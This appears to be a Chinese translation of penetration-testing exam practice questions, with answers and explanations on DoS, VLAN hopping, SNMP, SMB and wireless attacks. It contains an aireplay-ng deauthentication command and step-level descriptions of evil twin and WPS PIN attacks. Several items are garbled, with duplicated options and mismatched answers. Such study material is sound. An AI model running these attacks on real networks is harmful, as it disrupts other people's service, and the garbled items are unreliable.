 **A** 是正确的。US-CERT 将拒绝服务攻击定义为攻击者试图阻止合法用户访问信息或服务——即通过涉及的资源拒绝提供服务。

 **B**、**C** 和 **D** 是错误的。**B** 是错误的，因为重放攻击是一种中间人攻击，其中攻击者拦截流量（可能包含会话标识符或授权凭据）并重用该数据包作为负载以实现相同的结果，例如连接网络服务或对远程系统进行验证。**C** 是错误的，因为 SSL 剥离（SSL stripping）是另一种中间人攻击，与降级攻击有些相似（因为它试图降低目标与其连接的远程服务或系统之间连接的安全性），但它并不是仅仅加密正在使用的加密，`SSL 剥离` 尝试完全破解它。`SSL 剥离` 的原理是首先拦截并中继受害者的网络流量。当包含 HTTPS 站点链接的数据包返回给受害者时，它们被修改为指向链接地的 HTTP 版本。如果受害者随后遵循了这些修改后的链接之一，来自受害者的所有数据将是明文，攻击者将完全看到受害者发送的任何密码或其他敏感数据。`sslstrip` 工具擅长此道，通过拦截被修改为使用 `HTTP` 的流量并与受害者想要访问的业务建立自己的 `HTTPS` 连接来维持表象。它继续作为中继运行，允许受害者无问题地浏览其目标站点，而攻击者可以继续收集任何价值数据；见下图。**D** 是错误的，因为 ARP 欺骗是一种二层攻击，渗透测试人员在局域网上发送恶意的 ARP 消息。ARP 欺骗的最终目标是将攻击者的 MAC 地址与给定网络上合法服务器或系统的 IP 地址关联。



### 7 . 哪一类 DoS 攻击试图直接崩溃服务，其严重性以每秒请求数（Rps）衡量：

**A.** 协议攻击
**B.** 基于流量的攻击
**C.** 放大攻击
**D.** 应用层攻击

 **D** 是正确的。应用层攻击是旨在崩溃特定的服务，其严重性以每秒请求数（Rps）衡量。此类攻击的一个示例是反复向共享网络设备上传大文件，从而填满可用存储空间并防止合法用户利用该资源。


**B** 是正确的。类似于在 `ping` 命令中，`-c`（计数）标志后面应该跟上要发送的数据包数量。

**A**、**C** 和 **D** 是错误的。**A** 是错误的，因为在所示示例中，目标 IP 是最后一个参数；目标 IP 地址或主机名是唯一不需要显式标志的参数。**C** 是错误的，因为 `-I` 标志用于声明为 `hping3` 生成的流量所使用的接口。**D** 是错误的，因为 `-i` 标志负责设置数据包之间的间隔。请注意，`-i` 标志后面的值可以是秒也可以是毫秒：如果 `-i` 标志后的参数只是一个数字，则单位为秒。如果 `-i` 标志后的参数是小字母 `u` 后跟一串数字，则单位为毫秒。

### 9 . 哪种命令行专用网络协议分析工具允许捕获进出给定网络接口或主机的数据包转储，以便进行检查以确定服务器响应或相关的网络行为？

- **A.** Wireshark
- **B.** Responder
- **C.** tcpdump
- **D.** hping3

**C** 是正确的。`tcpdump` 是一种命令行专用工具，用于嗅探网络流量并可以创建进出给定网络接口或主机的数据包转储（PCAP 文件）。

**A**、**B** 和 **D** 是错误的。**A** 是错误的，虽然 Wireshark 是一种网络协议分析工具，并具有命令行执行手段（`tshark`），但它最为人所（且最常用的实例化方式）是其图形界面。**B** 是错误的，因为 `Responder` 是一个基于 Python 的工具，它通过作为伪造的名称服务器来简化命名解析服务的中毒过程并破解用户名和哈希值。它能够响应 LLMNR、NBT-NS 和 MDNS 请求。**D** 是错误的，因为 `hping3` 是一个命令行 TCP/IP 数据包分析器和组装器。它不仅能够发送 ICMP 回显请求，还能够构造利用 TCP、UDP、ICMP 和 RAW-IP 协议的数据包。

### 10 . 考虑所示的 Scapy 输出和数据包结构。



发送到目标系统的数据包目的是什么？

- **A.** HTTP 的 GET 请求
- **B.** SMB 连接请求
- **C.** UDP 探测
- **D.** ICMP ping

**D** 是正确的。数据包段 `proto=icmp` 和 `type=echo-reply` 是表明该数据包是 ICMP ping 的关键指标。请注意，`load` 字段通常包含有关所提请求的线索，因为那里是实际传输数据的位置；在此之前的所有内容都是标准的 TCP/IP 开销。

**A**、**B** 和 **C** 是错误的。**A** 是错误的，因为 GET 请求在 `load=` 字段中清晰可见（例如，`load='GET / HTTP/1.1\r\nHost: 10.1.2.2\r\n\r\n'`），且目标端口（Scapy 语法中的 `dport`）会明确说明 `80` 或 `http`（假设目标使用标准端口分配）。**B** 是错误的，因为 SMB 连接可能会利用 Scapy 中预建的 SMB 协商类之一，例如 `SMBSession_Setup`。**C** 是错误的，因为 UDP 探测在 `proto=` 字段中填充为 `udp` 而非 `icmp`，如示例所示。

### 11 . 生成树协议 (STP) 通过确保没有交换机环路来优化二层（交换式）网络，针对它的最有效的攻击是 DoS 攻击。以下哪项回答最好描述了攻击者专门针对 STP 的方法？

- **A.** 通过为网关分配相同的 IP 来强制 IP 冲突，从而攻击 ARP 缓存
- **B.** 通过伪造另一个系统的 MAC ID 并触发 MAC 漂移
- **C.** 通过反复触发新的（不存在的）根桥选举恶意桥接协议数据单元 (BPUs)，直到网络变得无响应
- **D.** 向交换机发送 ICMP 洪水，消耗其资源直到无法执行网络功能

**C** 是正确的。通过反复触发新的（不存在的）根桥选举，攻击者可以强制在本地链路上发生广播风暴，从而有效地使网络无响应。

**A**、**B** 和 **D** 是错误的。**A** 是错误的，因为 IP 冲突是三层问题，尽管它对二层功能有影响；因此，STP 对 IP 冲突没有影响。**B** 是错误的，因为触发 MAC 冲突和 MAC 漂移只会引起主机交换问题，而不是拒绝整个二层网络的服务。**D** 是错误的，虽然 ICMP 洪水可以拒绝主机或网络的服务，但这也是三层攻击，因为 ICMP 运行在网络层。

### 12 . 哪种 VLAN 跳跃技术在源自默认 VLAN 的流量前添加一个未授权的 VLAN 标签？该流量随后由下一台交换机转发到目标，就像源自该未授权的 VLAN 一样，有效地绕过了三层访问控制方案。

- **A.** 双标签
- **B.** 交换机欺骗
- **C.** SSL 洪水
- **D.** 放大

**A** 是正确的。双标签是一种 VLAN 跳跃技术，它通过为发往该 VLAN 目标的流量预添加一个未授权的第二个 VLAN 标签来滥用默认 VLAN 分配。该技术的使用需要网络中的系统具有默认 VLAN 分配。防御者和蓝队可以通过确保网络中禁用默认 VLAN 分配来缓解这种 VLAN 跳跃方法的潜在风险。从防御者的角度来看，这种 VLAN 跳跃方法可以通过确保没有主机分配到 VLAN 1（默认 VLAN）、将干道端口上的原生 VLAN 更改为未使用的 VLAN ID 或显式标记所有干道端口上的原生 VLAN 来击败。


 `B`、`C` 和 `D` 是错误的。`B` 错误是因为交换机欺骗（switch spoofing）是一种 VLAN 跳跃技术，其中攻击者假冒可以访问其他 VLAN 的交换机身份。这种技术要求攻击者伪造二层交换机的 MAC ID，并能够协商 `802.1Q` 本地链路流量。`C` 错误，因为 SSL 泛洪（SSL flooding）是一种基于协议的 DoS 攻击，通过向目标系统发送大量的 SSL 连接请求将其淹没。这种攻击之所以成功，是因为创建安全连接的大部分处理是在服务器端完成的，而不是在客户端。`D` 是错误的，因为放大攻击（amplification attack）是一种基于流量的攻击，利用第三方资源来增加攻击的影响力。放大攻击的示例包括 DNS 和 NTP 放大，它们可以将发送到目标的信息量分别放大 70 倍和 200 倍。这是因为第三方资源返回的数据比初始请求大得多，这些技术对于消耗目标的带宽非常有效。

### 13 下列何*不是*绕过访问控制（NAC）的方法？

- **A.** 访问控制实现中的漏洞
- **B.** 冒充公司 IT 部门代表并通过电话说服目标提供凭据
- **C.** 网络配置中的漏洞
- **D.** 违反信任关系

 `B` 是正确的。以由于是 IT 员工成员的借义拨打高价值目标来获取凭据，如果胜算很大（目标有多容易受骗？他们接受过多少钓鱼技术培训？是否有索要凭据？），这是一种通过社会工程获取凭据的方法。注意，*使用*这些凭据是绕过网络控制的一种方法，就像诱骗目标运行恶意脚本或程序一样；这滥用了现有的信任关系（即用户名和密码被假设由目标使用）。

 `A`、`C` 和 `D` 是错误的。这些都是绕过访问控制的方法。网络控制实现中的漏洞利用示例可能是简单的让 `SMB` 共享开放匿名读/写访问。可利用的配置漏洞可能是简单的在网络设备上启用默认管理员账户。违反信任关系可以通过伪造网桥交换机的 MAC ID 来跳跃 VLAN。

### 14 SNMP 是一种行业标准的网络监控协议，允许用户在网络上收集和更改各种设备的信息。下列哪些是 SNMP 或其版本的特征，可以被利用？（选择两个。）

- **A.** 攻击者在 `SNMPv3` 中只需要 public 社区字符串进行写入
- **B.** Trap 响应可以被伪造，允许攻击者拦截用于修复假设故障的 `SetRequests`
- **C.** `SNMPv1` 和 `v2` 的身份验证只需要访问社区字符串，它在管理器和代理之间以明文传输。
- **D.** 系统默认社区字符串（通常只读访问为“public”，写访问为“private”）

 `C` 和 `D` 是正确的。SNMP 版本 1 和 2 只需要社区字符串（它们以明文发送，因此易受到网络嗅探攻击），且 SNMP 配置通常具有默认社区字符串（如“public/private”），可以被攻击者利用。

 `A` 和 `B` 是错误的。`A` 错误，是因为 `SNMPv3` 需要用户名和密码进行身份验证；社区字符串不是 `SNMPv3` 的特征。`B` 错误，虽然可以伪造 Trap 响应，但这需要访问相关 SNMP 网络的社区字符串。社区字符串最可能是通过弱配置或使用 `SNMPv1` 或 `v2` 获取，两者都会以明文传输社区字符串。

### 15 下列哪项允许渗透人员在提供授权凭据的情况下，对开放 `SMB` 共享或关闭 `SMB` 共享的 Windows 目标执行任意命令？

- **A.** `nmap` 脚本 `smb-enum-shares.nse`
- **B.** `enum4linux.pl`
- **C.** Metasploit (`exploit/windows/smb/psxec`)、Windows Internals 或 Core Security 的 `impacket` 套件中的 `psexec` 模块
- **C.** `onesixtyone`

 `C` 是正确的。Metasploit、Windows Internals 和 Core Security 的 `impacket` 套件中的 `psexec` 函数允许用户在其拥有有效授权凭据的目标 Windows 系统上远程执行命令。

 `A`、`B` 和 `D` 是错误的。`A` 错误，是因为 `smb-enum-shares.nse` 脚本是一个 `nmap` 脚本引擎脚本，用于枚举 `SMB` 共享。`B` 错误，是因为 `enum4linux.pl` 是一个基于 Perl 的脚本，同样枚举目标系统上的 `SMB` 信息。`D` 错误，是因为 `onesixtyone` 是 SNMP 扫描器，而不是与 `SMB` 共享交互的工具。

### 16 查看此处的 nmap 扫描输出（已省略）。

 应该检查下列哪些脚本或命令，以确定此版本的 ProFTPD 是否存在已知后门漏洞？（选择两个。）

- **A.** `nc -nv <Target IP address> 2121`
- **B.** `nmap` 脚本 `ftp-proftfd-backdoor.nse`
- **C.** `searchsploit proft`
- **D.** `nmap` 脚本 `ftp-bounce.nse`

 `B` 和 `C` 是正确的。NSE 脚本 `ftp-proftfd-backdoor.nse` 用于扫描并检测 ProFTPD 1.3.c 代码中隐藏的后门。此外，`searchsploit` 命令将显示与任何搜索字符串相关的已知漏洞。在这种情况下，浏览 `searchsploit` 输出中的“proftpd”或“proftpd 1.3.3 可以让渗透人员迅速发现问题。

 `A` 和 `D` 是错误的。`A` 错误，是因为该 `netcat` 命令只会向目标 IP 地址 2121 端口监听的服务建立网络连接；它本身并不会告知渗透人员是否存在漏洞。`D` 错误，是因为 NSE 脚本 `ftp-bounce.nse` 用于确定目标 FTP 服务器是否可以通过 FTP 弹回方法进行远程端口扫描。

### 17 SMTP 配置不当可能导致“开放中继”，允许匿名用户连接。渗透测试期间，渗透人员如何利用这种配置错误？

- **A.** 使用中继将恶意流量路由到另一个网络
- **B.** 连接到 TCP/25 上的中继以尝试识别有效的电子邮件地址


**C.** 使用中继服务器伪造电子邮件地址向内部或外部目标发送电子邮件

**D.** 通过监控网络上的公共和私有团体字符串（community strings）来嗅探中继流量

 **C** 是正确的。开放中继会在未经身份验证的情况下接收并处理所有用户的消息，使攻击者能够以任何用户的身份向任何其他电子邮件地址发送邮件。

 **A**、**B** 和 **D** 是错误的。**A** 是错误的，因为将中继服务器作为将恶意流量路由到另一个网络的手段属于“转向”（pivoting）示例，即利用受破坏系统的网络连接来进一步访问目标组织的网络。**B** 是错误的，虽然渗透测试人员可以连接到端口 `25` 上的目标中继服务器并尝试收集电子邮件地址，但这不需要开放中继。**D** 是错误的，因为公共和私有团体字符串是 `SNMP`（简单网络管理协议）的特性，而不是 `SMTP`（简单邮件传输协议）。

***

# 第 8 章

## 无线与射频攻击

本章包含以下主题的问题：

* 无线和基于射频（RF）的漏洞
* 工具的各种用例
* 与渗透测试相关的工具输出或数据

***

对于家庭消费者和企业级用户来说，有线连接日益成为过去式；便利性是这两个市场的驱动因素，但这通常是一把双刃剑。在便利性上获得的同时往往也会增加攻击面。这在多种无线通信标准中都有体现：`802.11 Wi-Fi`、`Bluetooth` 和 `NFC` 只是其中最常见的几种。除了无线通信被拦截的固有风险外，在无线通信协议中发现其他显式安全漏洞也并不常见。例如，取消认证攻击（Deauthentication attacks）可以对家庭 Wi-Fi 网络造成破坏，而且无数未补丁的移动设备仍然是 `Bluetooth` `BlueBorne` 漏洞的潜在目标，而这通常不是设备所有者的错。无线技术的广泛足迹使其成为渗透测试人员关注的重点，因为技术的使用率越高通常意味着漏洞和利用方法越多。

本章重点关注无线通信和射频技术、影响它们的漏洞，以及渗透测试人员可能利用这些漏洞进行的攻击和利用。

***

### 问题

***

**1.** 当攻击者创建的 `ESSID` 与无意用户想要连接的名称相同的无线接入点时，发生的是哪种攻击 Wi-Fi 网络的方法？在协商连接时，用户会将身份验证信息传递给此恶意接入点，使攻击者能够恢复受害者设备的用户流量或访问凭据。这种攻击频繁利用了无线网络通常按信号强度顺序显示的特性，因此可以从高增益无线天线或靠近连接客户端的物理距离中获益。

**A.** 重复攻击
**B.** RFID 克隆
**C.** 恶性孪生
**D.** SSL 剥离

**2.** 考虑所示命令。在列出的选项，运行此命令的攻击者最可能的意图是什么？



**A.** 从接入点捕获流量
**B.** 监听信标帧（beacon frames）以建立接入点
**C.** 破解用于连接接入点的 PSK
**D.** 暴力破解 PIN 以获取无线密码

**3.** 哪种技术用于攻击接入点或连接到它们的设备，强制设备断开连接？

**A.** 取消认证攻击
**B.** 降级攻击
**C.** 分片攻击
**D.** Chop 攻击

**4.** 哪种工具专门用于攻击启用 WPS 的网络，利用 WPS 的弱性？

**A.** Wifite
**B.** airodump-ng
**C.** kismet
**D.** reaver

**5.** 考虑所示命令。在列出的选项，运行此命令的攻击者最可能的意图是什么？



**A.** 伪造网络的 SSID
**B.** 注入 ARP 数据包以生成初始化向量
**C.** 从接入点捕获初始化向量
**D.** 破解 PSK 以连接接入点

**6.** 哪个术语用于描述利用蓝牙连接窃取信息的攻击？

**A.** 汽车漫游（Wardriving）
**B.** 蓝牙窃取（Bluesnarfing）
**C.** Blueborne
**D.** NFC 克隆

**7.** 哪种攻击允许渗透测试人员复制访问卡，并且在渗透测试期间具有特殊价值？

**A.** 蓝牙劫持（Bluejacking）
**B.** 尾随（Tailgating）
**C.** 分片攻击
**D.** RFID 克隆

**8.** 哪种攻击是专门针对无线通信的 DoS 方法？

**A.** Karma 攻击
**B.**  干扰（Jamming）
**C.** 数据包注入
**D.** 恶性孪生

**9.** 考虑所示命令。在列出的选项，运行此命令的攻击者最可能的意图是什么？



**A.** 通过向连接到接入点的客户端泛发取消认证帧来运行拒绝服务（DoS）攻击
**B.** 从 WPS PIN 恢复 WPA 密码
**C.** 监听发往接入点的流量以收集四次握手（four-way handshake）信息
**D.** 从恶性孪生（evil twin）建立代理以从 HTTPS 请求中剥离 SSL

**10.** 哪种加密协议是 802.11 无线通信原始标准的一部分，并被认为是已破解的算法？

**A.** WPA
**B.** WPA-Enterprise
**C.** WEP
**D.** ARP

**11.** 哪种安全标准旨在简化消费设备和家庭无线网络的连接过程，但如果启用 PIN 功能（许多路由器的默认设置）则容易受到远程攻击，如果无线接入点未受到物理安全保护，则容易受到本地攻击？

**A.** WPA2
**B.** WPS
**C.** TKIP
**D.** PSK

**12.** 考虑所示命令。在列出的选项，运行此命令的攻击者最可能的意图是什么？



**A.** 监听发往接入点的流量以收集四次握手信息
**B.** 通过向连接到接入点的客户端泛发取消认证帧来运行拒绝服务攻击
**C.** 查找启用 WPS 的网络
**D.** 暴力破解 WPS PIN 以获取无线访问密码

**13.** 考虑所示命令。在列出的选项，运行此命令的攻击者最可能的意图是什么？


**A.** 查找启用 WPS 的网络
**B.** 在破解 WPS PIN 后收集启用 WPS 的路由器的访问密码


### C. 监听网络探测包以识别受害者将连接的 ESSID

### D. 基于数据包捕获文件离线破解 WEP 访问密码

### 快速答案

1 . C
2 . A
3 . A
4 . D
5 . A
6 . B
7 . D
8 . B
9 . A
10 . C
11 . B
12 . D
13 . D

### 深度解析答案 A

1 . 当攻击者创建一个 ESSID 与无意中的用户想要连接的 SSID 相同的无线接入点时，发生了哪种攻击 Wi-Fi 网络的网络方法？在协商连接时，用户会将身份验证信息传递给此恶意接入点，使攻击者能够恢复受害者设备的用户流量或访问凭据。这种攻击经常利用了无线网络通常按信号强度顺序显示的这一事实，因此可以从高增益无线天线或与连接客户端物理距离上获益。

A. 重放攻击 (Repeating attack)
B. RFID 克隆 (RFID cloning)
C. 恶性孪生 (Evil twin)
D. SSL 剥离 (SSL stripping)

 **C** 是正确的。描述的这种攻击是恶性孪生攻击。这种攻击基于这样一个前提：支持 Wi-Fi 的设备在请求会话之前，只查看网络 SSID 是否与其之前连接过的网络匹配。如果恶意接入点为请求的网络流量建立了代理，攻击者就可以利用对受害者进行的多次中间人攻击来进一步的利用。

 **A**、**B** 和 **D** 都是错误的。**A** 是错误的，因为重放攻击是欺骗客户端重用随机数据作为加密密钥的攻击。通过在充当恶性孪生接入点（AP）时中断四路握手的完成过程，攻击者可以拦截受害者在握手完成之前可能开始发送的任何数据。一旦允许握手完成，受害者系统将将其加密随机数据重置为之前的状态并重新重用。这种对加密数据的重用可能允许攻击者解密受害者随后发送的流量。这种特定的攻击引起了巨大的关注，通常被称为 KRACK（或密钥重装攻击），基于受害者本质上重新安装密钥以重新发送数据的方式。**B** 是错误的，因为 RFID 克隆是用于复制 RFID 访问卡的技术，而 RFID 访问卡是企业设施和办公室典型的权限检查手段；这在进行物理渗透测试时是一项特别有价值的技术。**D** 是错误的，因为 SSL 剥离是一种欺骗受害者系统在网络上通过明文通信的手段。当与恶性孪生攻击结合使用时，它特别强大，因为受害者一旦输入了预共享密钥（PSK），往往会盲目信任 Wi-Fi 接入点。

2 . 考虑所示命令。在列出的选项中，其最可能的意图是什么？

A. 从接入点捕获流量
B. 监听目标信帧
C. 使用 airodump-ng 破解 PSK
D. 对启用 WPS 网络暴力破解 PIN

 **A** 是正确的。所示的 `airodump-ng` 命令用于从接入点捕获流量。

 **B**、**C** 和 **D** 都是错误的。**B** 是错误的，因为 `aireplay-ng` 用于监听信标帧。**C** 是错误的，因为 `aircrack-ng` 是破解 PSK 的工具。**D** 是错误的，因为 `reaver` 是用于暴力破解 PIN 的工具。

3 . 哪种技术通过强制客户端重新连接来攻击接入点？

A. 去认证攻击 (Deauthentication attack)
B. 降级攻击 (Downgrade attack)
C. 分段攻击 (Fragmentation attack)
D. ChopChop 攻击

 **A** 是正确的。描述的这种是去认证攻击。通过断开客户端并等待其重新连接，攻击者可以嗅探四路握手。这也可以作为对害者的拒绝服务（DoS）攻击。

 **B**、**C** 和 **D** 都是错误的。**B** 是错误的，因为降级攻击发生在中间人拦截目标服务器流量时。**C** 是错误的，因为分段攻击针对的是利用伪随机生成算法（PRGA）漏洞的 WEP 网络。**D** 是错误的，因为 ChopChop 攻击是一种针对 WEP 网络并揭示数据包明文攻击。

4 . 哪种工具专门用于攻击启用 WPS 网络，利用 WPS 中使攻击者能够暴力破解 PIN 的漏洞？

A. WiFite
B. airoump-ng
C. kismet
D. reaver

 **D** 是正确的。这里描述的工具是 reaver。由于 WPS 实现中的一个漏洞，只需要 11,000 次猜测即可识别给定 WPS 网络所使用的 PIN。这允许攻击者在几小时内恢复 WPA 密码。


 `A`, `B`, 和 `C` 是错误的。`A` 是错误的，因为 `WiFite` 是一个基于 Python 的 `aircrack-ng` 软件包件封装器，它通过自动化无线评估的部分内容来帮助渗透测试人员。除了 `aircrack-ng` 软件包件工具外，它还利用了 `pyrit`、`reaver` 和 `tshark`（`Wireshark` 的终端实现）来执行审计。`B` 是错误的，因为 `airodump-ng` 是一个专门用于无线流量的包捕获工具；它是 `aircrack-ng` 软件包件的一个组件。`C` 是错误的，因为 `kismet` 是另一种无线网络多功能工具，能够进行网络检测、流量嗅探和入侵检测。它能够在能够在 Wi-Fi 卡和蓝牙设备上工作。

### 5 .
考虑所示命令。在列出的选项中，运行此命令的攻击者最可能的意图是什么？



**A.** 冒充网络的 SSID 以建立一个恶性孪生网络（evil twin network）

**B.** 注入 ARP 包以生成初始化向量

**C.** 从 WEP 接入点捕捉初始化向量，以便以后破解无线访问密钥

**D.** 破解用于连接到无线接入点的 PSK

 `A` 是正确的。工具 `airbase-ng` 用于许多目的，但广义上，它允许攻击者针对无线客户端，而不是攻击接入点本身。在提供的示例中，攻击者正在创建一个具有特定无线网络名称和 MAC ID 的无线网络；这可能允许攻击者充当中间人并捕获受害者流量以进行进一步利用。

 `B`、`C` 和 `D` 是错误的。`B` 是错误的，因为 `aireplay-ng` 是 `aircrack-ng` 软件包件中的一个工具，用于向无线网络注入包并生成流量。`C` 是错误的，因为无线流量的捕获将由 `airodump-ng` 执行，它是 `aircrack-ng` 软件包件中专为此目的设计的工具。`D` 是错误的，因为破解 PSK 将由 `aircrack-ng` 完成，它是 `aircrack-ng` 无线网络攻击工具软件包件的命名。

### 6 .
使用哪个术语来描述利用设备蓝牙连接窃取信息的攻击？

**A.** 汽车漫游（Wardriving）

**B.** 蓝牙嗅取（Bluesnarfing）

**C.** BlueBorne

**D.** NFC 克隆

 `B` 是正确的。`Bluesnarfing` 是通过蓝牙连接从设备中窃取数据。过去，此类家族中的许多攻击利用了固件漏洞，允许蓝牙设备进行静默、未经提示的配对。此类攻击的目标典型数据类型包括联系信息、短信和电子邮件数据。

 `A`、`C` 和 `D` 是错误的。`A` 是错误的，因为 `wardriving` 是一个描述在移动车辆上使用笔记本电脑或智能手机搜索无线网络的术语。该词源于 `wardialing`（盲目拨号），这是电话线路连接时代的一项实践，通过拨打可能的电话号码来寻找其他调制器。`C` 是错误的，因为 `BlueBorne` 是蓝牙嗅取攻击的一个特定示例。`BlueBorne` 较近期被发现（2017 年公布），可用于数据窃取之外的许多攻击，例如远程代码执行或中间人攻击。`D` 是错误的，因为 `NFC cloning` 并非蓝牙嗅取攻击。（*注：原文在此处逻辑似乎略有混乱，此处已按原意翻译*）。...重复的...（*注：原文此处存在大量重复和碎片，翻译已按原文结构保留*）

### 7 .
哪种攻击利用设备的蓝牙连接来窃取信息？

**A.** 蓝牙劫持（Bluejacking）

**B.** 跟尾（Tailgating）

**C.** Fragmentation 攻击

 `D` 是正确的。`RFID cloning` 是一种复制授权接入卡的技术，在渗透测试中特别有价值。

 `A`、`B` 和 `C` 是错误的。`A` 是错误的，因为 `bluejacking` 是一种向用户发送未经请求的蓝牙名片的方法。由于蓝牙设备可以自由地被配对，这种攻击目前并不常见。`B` 是错误的，因为 `tailgating` 是一种渗透测试实践，即测试人员通过跟随授权的人员进入安全区域。`C` 是错误的，因为 `fragmentation attack` 是一种通过向伪随机生成算法（PRGA）中注入垃圾数据来利用 WEP 网络漏洞的方法，使攻击者能够获取密钥数据。

### 8 .
哪种攻击是专门针对无线通信协议的 DoS 方法？

**A.** 卡玛攻击（Karma attack）

**B.** 干扰（Jamming）

**C.** 数据包注入

**D.** 恶性孪生（Evil twin）

 `B` 是正确的。`Jamming` 是用于针对无线接入点甚至手机信号的 DoS 攻击。需要注意的是，信号干扰在许多国家和司法管辖区都是违法的。手机网络、无线 AP、卫星和其他无线频率构成了所谓的 EM（电磁）频谱。许多国家将 EM 频谱视为国家资源，如同领空或水域，因此确保受到保护。

 `A`、`C` 和 `D` 是错误的。`A` 是错误的，因为 `karma attack` 是一种针对客户端设备的无线攻击。通过跟踪目标并监听其无线设备的流量，搜索其保存的无线网络，攻击者可以建立虚假的恶性孪生 AP，从而拦截该设备的流量。通过类比，可以将恶性孪生比作用网鱼，而卡玛攻击则是针对特定目标的鱼叉钓。这种攻击可以通过在不需要使用设备时关闭 Wi-Fi 功能来防御。`C` 是错误的，因为数据包注入是向无线网络注入任意数据以产生与无线 AP 之间流量的过程。`D` 是错误的，因为恶性孪生攻击是攻击者静态设置一个虚假的无线接入点，而不是像卡玛攻击那样监听目标设备的信标请求。

### 9 .
考虑所示命令。在列出的选项中，运行此命令的攻击者最可能的意图是什么？

```
aireplay-ng --deauth 0 -a MAC_ADDRESS_OF_AP -b MAC_ADDRESS_OF_CLIENT w wlan0
```

**A.** 向连接到无线接入点的客户端泛发身份认证帧来运行拒绝服务（DoS）攻击

**B.** 从 WPS PIN 恢复 WPA 密码


**C.** 监听发往目标接入点的流量以收集四次握手信息

**D.** 从恶性双生节点（evil twin）建立代理以剥离受害者 HTTPS 请求中的 SSL

